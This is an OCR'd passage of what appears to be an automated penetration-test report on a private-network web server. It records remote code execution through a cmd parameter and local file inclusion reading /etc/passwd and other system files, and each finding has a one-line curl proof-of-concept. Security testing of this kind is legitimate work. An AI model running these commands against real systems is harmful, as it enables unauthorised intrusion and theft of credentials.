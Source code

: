 Risk Level: CRITICAL
Risk Description: Password hashes, database files, and SSH keys accessible - complete system compromise
Total Files Accessed: 39
- **Proof File**: outputs/192.168.1.50_http_lfi_proof.txt

### Remote Code Execution (RCE)
- **Target**: 192.168.1.50:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: RCE vulnerability exploited on http://192.168.1.50/phpinfo.php with parameter cmd
- **PoC**: `curl 'http://192.168.1.50/phpinfo.php?cmd=whoami'`
- **Proof**: RCE confirmed with 27 successful commands:
- whoami: User identification
- id: User and group information
- uname -a: System information
- pwd: Current directory
- ls -la: Directory listing

Risk Level: CRITICAL
Risk Description: Reverse shell capabilities confirmed - immediate compromise possible
Total Commands Executed: 27
- **Proof File**: outputs/192.168.1.50_http_rce_proof.txt

### Local File Inclusion (LFI) - Discovered Endpoint
- **Target**: 192.168.1.50:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: LFI found on discovered endpoint http://192.168.1.50/twiki with parameter file
- **PoC**: `curl 'http://192.168.1.50/twiki?file=../../../etc/passwd'`
- **Proof**: LFI confirmed with 39 successful file inclusions:
- ../../../etc/passwd: User database
- ../../../etc/group: Group database
- ../../../etc/hosts: Hosts file
- ../../../etc/resolv.conf: DNS configuration
- ../../../etc/apache2/apache2.conf: Apache configuration

Risk Level: CRITICAL
Risk Description: Password hashes, database files, and SSH keys accessible - complete system compromise
Total Files Accessed: 39
- **Proof File**: outputs/192.168.1.50_http_lfi_discovered_proof.txt

### Local File Inclusion (LFI) - Discovered Endpoint
- **Target**: 192.168.1.50:80
- **Risk Level**: CRITICAL
- **Risk Description**: No description available
- **Details**: LFI found on discovered endpoint http://192.168.1.50/index.php with parameter file
- **PoC**: `curl 'http://192.168.1.50/index.php?file=../../../etc/passwd'`
- **Proof**: LFI confirmed with 39 successful file inclusions:
- ../../../etc/passwd: User database
- ../../../etc/group: Group database
- ../../../etc/hosts: Hosts file
- ../../../etc/resolv.conf: DNS configuration
- ../../../etc/apache2/apache2.conf: Apache configuration
